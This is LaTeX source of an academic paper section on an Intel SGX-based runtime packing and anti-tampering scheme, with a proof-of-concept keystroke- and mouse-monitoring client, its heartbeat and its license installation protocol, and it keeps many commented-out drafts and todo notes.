%As for the \texttt{decrypt()} function, this also performs a hash to check the 
%CS integrity.
%In our design, \texttt{encrypt()} and \texttt{decrypt()} functions has the 
%role of \emph{checkers}.
Note that \texttt{decrypt()} and \texttt{encrypt()} are considered as atomic. 
These functions are used as primitive to build more sophisticated mechanisms 
later.
We illustrate the runtime packing algorithm in Figure~\ref{fig:dec1}.
In the beginning, the CS is encrypted (\ie $E[CS]$) while the 
\texttt{decrypt()} function is executed  (Figure~\ref{fig:dec1}-\text{1}). 
After the decryption phase, the CS is plain (white color) and it is normally 
executed (Figure~\ref{fig:dec1}-\text{2}).
Finally, the \texttt{encrypt()} function is executed and the CS gets encrypted 
again (Figure~\ref{fig:dec1}-\text{3}).

Together with the packing mechanism already explained, we employ a parallel 
heartbeat as a response, which is depicted in 
Figure~\ref{fig:core-all}-\text{c}.
The heartbeat is implemented by calling a \texttt{response()} function which 
resides within the trusted zone.
The response's duty is to select a random CS and validate its hash value along 
with its respective decrypt and encrypt function calls, the outcome of this 
check is an encrypted packet shipped to a server that validates the application 
status.
The heartbeat does not prevent software tampering, it is a \emph{responsive} 
strategy to alert a central system about an attack.
To implement a heartbeat, it is possible to adopt different strategies, \eg we 
can set a dedicated thread which is risen according to a time series, or else 
we can merge the heartbeat with a communication channel between the client and 
the server (as we opted in our proof-of-concept application).

\begin{figure}[b]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c3/dec1.pdf}
	\caption{Packing mechanism of our schema.}
	\label{fig:dec1}
\end{figure}

%The packaging system described since now requires further sophistications in 
%order to be employed in modern softwares.
%Since modern languages allow a developer to use software patterns such as 
%recursion or exceptions,
%we must guarantee that a CS is always encrypted before a \texttt{decrypt()} 
%function is called, and that is encrypted again after the respective 
%\texttt{encrypt()} function.
%In order to explain how we guarantee this property, we introduce the concept 
%of \emph{valid Critical Section}.
%In the following, we describe our solutions; however, this require us to 
%define which CS are considered valid.
%From this consideration, we state our third challenge:

\paragraph{\textbf{Function Calls and Recursions}}
Since we allow a CS to host function calls, a CS might remain plain after a 
call. This potentially increases the attacker surface.
To mitigate this issue, we desire that a CS is encrypted once the control 
leaves the CS itself, and decrypted again right after.
This is achieved by introducing two new functions, namely \texttt{enc\_prev(f)} 
and \texttt{dec\_prev(f)}, which are handled by the trusted module, as 
described in Figure~\ref{fig:core-all}-\text{b}.
%Their interaction with the rest of the system is summarized in 
%Figure~\ref{fig:callfunction}\todo{FT: think if we really need a picture for 
%this..maybe not}.
At compilation time, we instrument all functions that are directly called from 
within a CS by adding a function call toward \texttt{enc\_prev(f)} in their 
preamble, and toward \texttt{dec\_prev(f)} for each of its exit point (\ie 
return operation).
Both \texttt{enc\_prev(f)} and \texttt{dec\_prev(f)} functions require a 
parameter \texttt{f}, this parameter identifies which is the function that 
calls \texttt{enc\_prev(f)} and \texttt{dec\_prev(f)}.
Since several CSs can call the same function \texttt{f}, we introduce a stack 
for each function \texttt{f} to handle these cases, as depicted in 
Figure~\ref{fig:core-all}-\text{c}.
These stacks are global variable inside the trusted module, we identify the 
stack for the function \texttt{f} as follows:
$$
stack\_cs[f] = \text{stack<CS>}().
$$
%Moreover, the functions \texttt{encrypt()} and \texttt{decrypt()} edit 
%\emph{plain\_cs} variable. More precisely \texttt{encrypt()} function sets 
%\emph{plain\_cs} with the current CS, while \texttt{decrypt()} sets 
%\emph{plain\_cs} to \emph{NULL}.
The \texttt{enc\_prev(f)}, \texttt{dec\_prev(f)} functions and the 
\texttt{stack\_cs[f]} interact through each other in the following way.
Once \texttt{enc\_prev(f)} is called, it identifies whether the control comes 
from a CS by checking the global variable \emph{plain\_cs}.
If it is the case, the function performs two operations: 
\begin{enumerate*}[label=(\roman*)]
	\item it pushes \emph{plain\_cs} in \texttt{stack[f]}, and
	\item it calls \texttt{encrypt(plain\_cs)}.
\end{enumerate*}
Therefore, after calling \texttt{enc\_prev(f)} the system reaches this status:
\begin{enumerate*}[label=(\roman*)]
	\item the outer CS is encrypted (and thus protected),
	\item \emph{plain\_cs} is set to \emph{NULL}, and
	\item the thread is ready to handle a new CS.
\end{enumerate*}
Similarly, once the control leaves the function \texttt{f}, the epilogue calls 
\texttt{dec\_prev(f)}.
This function performs two operations:
\begin{enumerate*}[label=(\roman*)]
	\item it pops the last CS from \texttt{stack[f]} into \emph{plain\_cs}, and
	\item it restores the previous CS status by calling 
	\texttt{decrypt(plain\_cs)}.
\end{enumerate*}
As a result, the control can safe pass to the outer CS.
In the opposite scenario, once the control enters in the function \texttt{f} 
and the \emph{plain\_cs} is set to \emph{NULL}, it means that the function 
\texttt{f} was not called by a CS; and therefore, \texttt{enc\_prev(f)} and 
\texttt{dec\_prev(f)} do nothing.
Stacks allow us to handle recursions, if the function \texttt{f} is 
repetitively called, we trace all previous CSs.

%\begin{figure}[t]
%	\centering
%	
\includegraphics[width=0.45\textwidth]{fig_c3/core-callfunction}
%	\caption{Function call, when the control enters in a function, the system 
%tries to encrypt the previous vCS}
%	\label{fig:callfunction}
%\end{figure}

%This solution allows us to totally encrypt the vCS after the control leaves 
%it; other settings could

%Modern program languages, like C++, allow a user to raise exceptions in order 
%to handle unpredictable program behaviors.
%These mechanism might bring our anti-tampering system to an unstable 
%situation, \eg an exception risen in the middle of a CS will leave the CS 
%it-self decrypted.
%This introduces our last challenge:
%\begin{description}
%	\item [(C5)] How do we handle exception?
%\end{description}
\paragraph{\textbf{Exceptions within Critical Section}}
%Modern program languages, like C++, allow a user to raise exceptions in order 
%to handle unpredictable program behaviors.
%These mechanism might bring our anti-tampering system to an unstable 
%situation, \eg an exception risen by a CS will leave that CS decrypted.
We can handle exceptions from within a CS by introducing a new function, namely 
\texttt{enc\_all()}, which is handled by the trusted module, as described in 
Figure~\ref{fig:core-all}-\text{c}.
This function is an alias for \texttt{encrypt(plain\_cs)}.
That is, we wrap any CS with a try/catch block at compilation time, as 
described in Figure~\ref{fig:core-all}-\text{a}.
The exception block is made such that
\begin{enumerate*}[label=(\roman*)]
	\item to catch all exceptions, 
	\item to run \texttt{enc\_all()},
	\item to throw the exception again.
\end{enumerate*}
In this way, we restore the anti-tampering mechanism as soon as an exception 
appears. 
Thus, after an exception, we encrypt all the plain CSs and the application can 
continue normally.
Note that the \emph{response} function has to be extended in order to protect 
the \emph{catch} block,
or else, an attacker might raise an exception in order force a CS to be 
plain\footnote{We do not deal with runtime attacks to exception handlers, such 
as SEH, since they do not belong to anti-tampering problems.}.

%\paragraph{\textbf{Network protection}}
%An advanced attack can be brought right after the \emph{decryption} function 
%is executed.
%At this point, an attacker can remove invocations to any trusted functions in 
%enclaves and keep the plain code correctly decrypted.
%To avoid this type of attacks we employed a random network of checkers.
%More precisely, each \emph{decryption} function randomly checks another block 
%of code beside itself, namely \emph{external block}.
%Also, that function verifies the relative \emph{encryption} and 
%\emph{decryption} functions call of the \emph{external block}.
%The \emph{external block} is randomly decided every time a \emph{decryption} 
%function is called. The decision is taken inside the enclave by using 
%\texttt{sgx\_read\_rand} function that can generate a random number in a 
%secure 
%fashion.

\paragraph{\textbf{Multi-threading programs}}
%\todo{FT: maybe move it into extended version}
We can extend the previous techniques in order to handle parallel computation, 
this is possible because some trusted computing technologies allow 
multi-threading programming, like SGX (see 
Section~\ref{ssect:back-sgx}\todo{reference}).
To achieve multi-threading, we maintain a \emph{plain\_cs} and a 
\texttt{stack\_cs[f]} for each thread.
%This allow us to maintain an independent status for each thread.
Moreover, we introduce a counter for each CS. % -- namely \emph{[CS]}.
These global variables represent the number of threads which are executing a CS 
in a specific moment.
In the beginning, the CSs' counters are set to \emph{zero}.
Then, they are increased and decreased by \texttt{decrypt()} and 
\texttt{encrypt()} functions respectively.
%These counters are used to understand whether a CS is under execution by some 
%thread.
%In case a CS is already decrypted (\eg $TOKEN[CS] > 0$), \texttt{decrypt()} 
%does not apply any algorithm, but it just increases the counter.
%On the other hand, if a CS is used by more than one thread  (\eg $TOKEN[CS] > 
%1$), \texttt{encrypt()} does not modify that CS, but it just decreases the 
%counter.

%\vspace{3mm}
%The entire pseudo-code of all functions described since now is included in 
%Appendix~\ref{appendix}.
%As discussed before, our approach is still theoretically prone to patch \& 
%repair attacks which will be discussed in Section~\ref{sec:experiment}, and 
%are 
%practically unlikely to succeed.
%Another problem which deserves attention is the loading of key for the 
%packaging/de-packaging algorithm. This is overcame by a secure booting phase 
%which will be discussed in the following paragraphs.

%FT: removed because already described before
%\paragraph{\textbf{Response by using Heartbeat}}\todo{FT: I think we can 
%remove it!}
%
%Since our approach is meant to be implemented in a client-server 
%infrastructure, we employed an heartbeat packet as response (more details 
%about 
%architecture in~\ref{lbl:architecture}).
%The purpose of heartbeat is twofold. First, it needs as proof to the server 
%that client is running. Second, it verifies code integrity of the client.
%This last properties is achieved by a challenge between sever and client, in 
%our assumptions client and server share the same key.
%
%The heartbeat can be implemented as periodically communication between client 
%and server, or as signature into the normal communication.
%\todo{fig}

\paragraph{\textbf{Ensuring a Secure Booting Phase}}
Our approach requires that the program has a secure booting phase, which means 
having the following assumptions for the
\emph{encrypt}, \emph{decrypt} and \emph{response}: the key for crypto 
algorithms must be loaded in a secure way together with a table which describes 
where the CSs are located (\ie their address and length) with their hash values.
We refer to this table as \emph{block table}.
We assume a trusted loading of this information by adopting SGX sealing and 
attestation mechanisms.
Those mechanisms ensure to store information on a disk or to establish a secure 
channel with other enclaves within the same machine (\ie local) or with a 
remote one (\ie remote) in a trusted way.
Details on sealing and attestation are discussed in 
Section~\ref{ssect:back-sgx}\todo{add background}.

%\subsection{New Enclave Interface}
%\todo{FT: I propose to remove it}
%\todo{FT: that's a temporary location/title. I will change it later}
%
%Goal: \textbf{for each thread, we allow at most one decrypted critical section 
%at time}.
%
%How to: all functions called from inside a CS has at preamble and trailer a 
%call to ENC\_PREV(L) and DEC\_PREV(L) respectively.
%L indicates the function called, these functions handle the previous CS in 
%case the call starts from there, or else they just do nothing.
%\todo{FT: explain practical algorithm}
%
%Our algorithm interface expose these functions:
%
%\begin{description}
%	\item[DEC(CS)] this function decrypt the critical section CS.
%	\item[ENC(CS)] this function encrypt the critical section CS.
%	\item[DEC\_PREV(L)] this function decrypt the previous critical section 
%which belongs to lelve L, if any.
%	\item[ENC\_PREV(L)] this function encrypt the previous critical section 
%which belongs to lelve L, if any.
%	\item[ENC\_ALL()] this function encrypt all plain critical sections, it is 
%needed to handle exceptions and signals.
%\end{description}
%
%This set of functions help us to handle any function calls within any CS, and 
%also recursions.
%As result we have a smaller attack surface.
%
%\begin{figure}[t]
%	\centering
%	
\includegraphics[width=0.5\textwidth]{fig_c3/recursivefunction}
%	\caption{Recursive function example\todo{FT: I propose to remove it}}
%	\label{fig:recursivefunction}
%\end{figure}
%
%\subsection{Critical Sections}
%\todo{FT: I propose to remove it}
%In our definition, a critical section can be any portion of code,
%therefore, they can include control flow instructions such as
%branch conditions, loops, and function calls.
%This makes challenging to implement a
%packaging algorithm which keeps the program stable and, at the same time,
%guarantees the security properties stated before. 
%For instance, a critical section which has a long execution time (\ie it 
%contains loops)
%can increase the chance of an attacker to bring a patch \& repair attack,
%or else, a recursive function, which contains a critical section, can call 
%itself 
%and then attempts to decrypt twice its own critical section.
%
%These problems can be overcome by applying our packaging approach
%to each basic block of a critical section.
%In this way, the attack surface is restricted at each single basic block,
%while, in case of function calls, each basic block is encrypted before the 
%control flow leaves the function itself.
%%However, in our proof-of-concept application described in 
%%Section~\ref{sec:implementation}, we do not support
%%packaging at single basic block, even if it is possible to extend our work to 
%%support that like in~\cite{shih2017t,seo2017sgx}.
%
%\subsection{Validation of Critical Sections}
%\todo{FLAVIO: That's part of my email}
%Problem statement: how is it defined a valid Critical Section?
%
%
%Generally speaking, a critical section is manually defined by the user. 
%Therefore, it might be any random code region within a program.
%
%That's why I would define which requirements a critical section must meet in 
%order to be valid.
%
%Then, we can propose how to implement these conditions to validate all CSs at 
%compilation time.
%
%
%Critical Section definition:
%
%A critical section is any continues portion of code which is identified by two 
%instructions, namely \emph{CS\_Begin} and \emph{CS\_End}.
%
%
%Valid Critical Section definition:
%
%A valid Critical Section is a Critical Section which its \emph{CS\_Begin} and 
%\emph{CS\_End} satisfy the following rules:
%
%\begin{enumerate}
%	\item \emph{CS\_Begin} and \emph{CS\_End} must lean within the same 
%function.
%	\item For each program execution, \emph{CS\_Begin} is always executed 
%before \emph{CS\_End}.
%	\item Every execution path which starts from a \emph{CS\_Begin} must reach 
%the same \emph{CS\_End}.
%	\item It is not possible to define two consecutively \emph{CS\_Begin} or 
%\emph{CS\_End} (not CS overlapping) (I ask help to define this rule please :))
%	\item Every function call within a CS is considered as an atomic operation.
%\end{enumerate}
%
%Also, this analysis makes me think about two aspects of the program:
%
%\begin{enumerate}
%	\item how do we handle exceptions? If the critical section raises an 
%exception, this will interrupt the normal flow of the program. I have to find 
%out how to manage it. Every CS is wrapped with a try catch, in case of 
%exception we encrypt back the CS (all the CS) and we raise the exception
%	\item how do we handle signals? An operative system can raise a signal, we 
%should intercept it and react accordingly. I need some help in this as well. 
%Same as exception
%\end{enumerate}
%
%\todo{FLAVIO: keep trace the list of decrypted CSs for each thread + introduce 
%ENCRYPT\_ALL function which encrypts back all CS let open!}
%
%In both cases we have to understand whether a critical section is decrypted 
%and, in case, encrypt it again. But I don't know how.
%
%\subsection{Exceptions Handling}
%\todo{FT: just a note}
%After having identify a valid critical section, that one is wrapped in a 
%try/catch block.
%In this way, if the critical section, or some function called by this one, 
%raise an exception, we can catch it and performs a ENCRYPT\_ALL() to make 
%every 
%CS secure again.

\section{Implementation}
\label{sec:implementation}
In this section, we describe a proof-of-concept implementation of our 
anti-tampering
technique, whose architecture is depicted in Figure~\ref{fig:architecture}.
The application is composed by a central server that handles a set of clients 
which are spread over a network.
%\todo{SJ: some background, in particular, the motivation of the application is 
%needed in order to set the stage.}
Each client is a monitoring application that traces user's activities (\ie 
keystrokes and mouse traces) and sends the
data to the central server.
As a trusted module, we opted for the Intel Software Guard eXtension 
(SGX)~\cite{rozas2013intel}, however, it is possible to use other solutions 
that involves the kernel (\eg TPM~\cite{tpm-isoosi}).
We deployed the architecture in a Windows environment.
Through this application we describe the specific technical solutions we 
adopted for the client, and how we implemented installation phase, boot phase, 
and response. 
%In the end, we propose a development framework to deploy our technique to any 
%application.
\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.45\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{fig_c3/architecture.pdf}
		\caption{The architecture of proof-of-concept program. The client is a 
		monitoring agent which collects user's activities, the server handles 
		clients, and the database stores collect data and license keys.}
		\label{fig:architecture}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{0.45\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c3/clientarchitecture.pdf}
		\caption{The software organization of the client.}
		\label{fig:clientarchitecture}
	\end{subfigure}
	\caption{Careful-Packing architecture.}
\end{figure}

\subsection{Client}
We describe the internal structure of the client in order to clarify some 
practical implementation strategies.
We developed this application in C++ and we deployed it on Windows machines.
For sake of simplicity, we did not implement Address Space Layout Randomization 
(ASLR)~\cite{snow2013just}, however, it is possible to deduct the right address 
offset by employing a Drawbridge system~\cite{porter2011rethinking}.

\paragraph{\textbf{Software Architecture}}
The client is formed by three modules: the main program, and two dynamic linked 
libraries (DLL) namely untrusted DLL and trusted DLL. % which are used to 
%integrate our technology into the main program.
This architecture is depicted in Figure~\ref{fig:clientarchitecture},
the application communicates with the untrusted DLL to call the functions 
described in Section~\ref{sec:approach}.
The untrusted DLL works together with the trusted DLL (\ie the enclave) to 
handle the whole anti-tampering technique.
We choose this architecture to
simplify the integration of our anti-tampering system.
In this way, the developer can focus on the main program
and integrate the anti-tampering system later.
Each component of the architecture is described as follows:
\begin{itemize}
	\item \textbf{Application:} this is the client that we aim to enforce. 
	Natively, 
	it contains all the functionalities for collecting information from the 
	underline OS and ship them to the server.
	\item \textbf{Untrusted DLL:} this contains the untrusted functions for 
	interacting with the enclave. Also, it keeps track of the status of the 
	enclave (\ie enclave pointer) and exposes routines procedures.
	\item \textbf{Trusted DLL (enclave):} this is the enclave. It contains the 
	trusted functions described in Section~\ref{sec:approach} (\eg checkers, 
	response) along with some extra routine functions (\ie installation and 
	boot).
\end{itemize}

\paragraph{\textbf{Critical Section Definition}}
%As we introduced before, one of the purposes of anti-tampering techniques is 
%to protect critical software sections which are crucial for the software logic.
Since this client is a monitoring agent, we identify as CSs those
functions used to collect the information issued by the OS:
\texttt{PAKeyStroked}, which collects keystroked, and its twin 
\texttt{PAMouseMovement},
which collects mouse events.
These functions are callback risen by the OS along with the relative event 
information.
For sake of simplicity, we trust in argument passed by the OS.
The main duties of these functions are:
\begin{enumerate*}[label=(\roman*)]
	\item collecting the data,
	\item crafting a packet with the data collected,
	\item signing the packet, and finally
	\item shipping it to the server.
\end{enumerate*}
Since in our implementation we required only integrity, we implemented a 
digital fingerprint.

\paragraph{\textbf{Packaging Algorithm}}
The packaging algorithm adopted is an AES-GCM encryption 
schema~\cite{zhou2007efficient} between the assembly code and
the license key.
SGX natively provides an implementation of this algorithm~\cite{rijndael128GCM}.

\paragraph{\textbf{Heartbeat}}
The heartbeat is implemented as a digital fingerprint which is used on all 
packets exchanged between
client and server, our strategy allows the server to validate client status by 
testing the
digital fingerprint itself and also for mitigating \emph{denial-of-service}.
%\feedback{FT: I tried to rephrase it}.
%On the other hand, if an attacker stops the communication (\eg switch client 
%off) or simply
%removes the signature, 

The digital fingerprint is created by feeding a \emph{sha256} function with the
concatenation of the message to sign, the license key, and a special byte called
\emph{check byte}, which can have two values (\emph{safe}, or \emph{corrupted})
according to the status of the program.
The digital fingerprint algorithm randomly selects a CS and sets the 
\emph{check byte}
accordingly.
Then, the server verifies the digital fingerprint by guessing the \emph{check 
byte} value used at the client side.
That is, the server crafts the two digital fingerprints by using the two 
possible values of the \emph{check byte}.
If one of the generated digital fingerprints matches the original one, the 
server can infer the status of the client (\ie it is healthy or tampered).
Otherwise, that means the message was corrupted, or it was originated by the 
wrong machine.
This simple heartbeat implementation allows the sever to 
identify \emph{denial-of-service} at client side. If an
attacker switches off the monitor agent,
the communication will be immediately affected.

%This is only a simple example of heartbeat implementation.
%For instance, it is possible to use more CSs to generate the check byte.
%It is also possible to use more values for the check byte in order to
%have more information about the state of the program.
%However, more values mean more effort for the server to validate the signature.

In our implementation, we adopted semaphores in order to avoid conflicts
with checking functions, and we added timestamps to exchanged packets for 
avoiding replay attacks.

\paragraph{\textbf{Block Table}}
%\subsection{Block Table}
Packaging and heartbeat functions require the coordinates of all 
CSs (start address, size, and hash-value) along with the license key
for running.
This information can be handled mainly in two ways:
%\begin{itemize} 
a) the client loads the entire table in the enclave memory;
b) the client loads the entire table in the untrusted zone and adds a digital 
fingerprint to guarantee entries integrity.
%\end{itemize}

Both approaches have pro and cons. The first approach guarantees also 
confidentiality
at the table.
Moreover, since the table is stored in the enclave, all trusted functions can
retrieve the entries faster.
On the other hand, if the table is too large the enclave might be overloaded.
The second approach is lighter in term of memory consumption because it keeps 
all
rows within the untrusted zone. However, in this case, the algorithm results 
slowly because it has to
inspect the untrusted zone to retrieve the entries and to verify
their integrity.
In our implementation, we opted for the second option where each entry is 
protected
by using the license key and stored within the untrusted memory region.

%\subsection{Server architecture}
%\label{lbl:architecture}
%In this scenario, it is important that each client is installed on a specific 
%machine.
%Also, it is important to guarantee that each client is working without any 
%manumissions
%in the designed location.
%Therefore, it is important the central server solves the following duties:
%\begin{enumerate*}[label=(\roman*)]
%	\item verify client installation,
%	\item share licenses to the correct clients,
%	\item collect the data issued by the client.
%\end{enumerate*}

%\paragraph{\textbf{Installation Phase}}
\subsection{Installation Phase}

We achieve a secure installation by using an authentication protocol based on
SGX remote attestation, the entire protocol is depicted in 
Figure~\ref{fig:installation}.
In this scenario, the server has a database which contains all license keys,
all the CSs, and the block table of each client.
On the other side, each client is only formed by the program to protect, with 
the encrypted CSs already replaced, and its enclave,
which contains \emph{checkers}, \emph{responses}, and \emph{installation} 
routines.

\emph{\textbf{Licensing System}}
The goal of the installation phase is to deliver the correct \emph{license key} 
to the respective client in a secure fashion.
To achieve this, each client instance uses a different \emph{private key} to 
decrypt its CSs.
The \emph{private key} is directly derived from the \emph{license key}.
That is, each client instance requires its own \emph{license key} to work 
properly.
In the following paragraph, we exploit this fact to authenticate a client to 
the server.

\emph{\textbf{Installation Procedure}}
In this phase, the aim of the client is to perform a remote attestation with 
the server, this latter
then verifies client's identity and releases the relative license key and the 
block
table, which allows the client to run properly.
In order to establish a remote attestation, the enclave is signed by a 
certification authority
and the server is awarded for the certificates shared with clients.

%stage 0: making a trusted channel through remote attestation + client measure
In the beginning, the client and the server follow the remote attestation 
mechanism described by
Intel in~\cite{sgxremoteatt} (Figure~\ref{fig:installation}-0).
After this, both entities can rely on a secure end-to-end channel.
Also, this allows the server to obtain the client measurement, which is a 
cryptographic hash
that probes the client enclave version and the client hardware.
This information is used by the server to bind client identity and license key.
%stage 1: send installation request
Once the channel is created, the client sends an installation request to the 
server
(Figure~\ref{fig:installation}-I), the request is an encrypted CS
which is randomly taken from the client itself.
%stage 2: installation verification and key release
The server receives the installation requests, and it verifies which license 
key belongs
to the CSs.
Then, the server binds the client measurements with the license key, and it 
releases this
latter to the client along with the block table 
(Figure~\ref{fig:installation}-II).
%stage 3: local sealing
When the enclave receives the license key and the block table, it will seal all 
in the client machine.
At this point, only the client can read these information through SGX sealing 
process (Figure~\ref{fig:installation}-III).
Even if a malicious client forces a signed enclave to send an installation 
request
with a CS to the server, 
the retrieved license key will be sealed on the machine, and only the signed 
enclave can read it.

At this point, the installation phase is concluded: the server has the 
information about
the location of the client and the key license and block table are securely 
stored 
on the client machine.

\begin{figure}[t]
	\centering
